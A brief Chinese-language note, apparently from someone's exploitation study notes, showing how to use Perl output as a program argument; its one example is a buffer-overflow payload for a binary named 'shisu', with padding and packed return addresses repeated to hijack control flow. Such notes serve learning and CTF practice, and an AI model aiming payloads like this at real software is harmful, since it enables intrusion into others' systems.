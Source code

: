 # perl---输出作为程序参数

一个payload例子  

```bash
./shisu "`perl -e 'print \"A\"x12 . pack(\"LLL\", 0x08048330, 0x0804852f, 0x08048820)x42;'`"
```


2018/3/19  
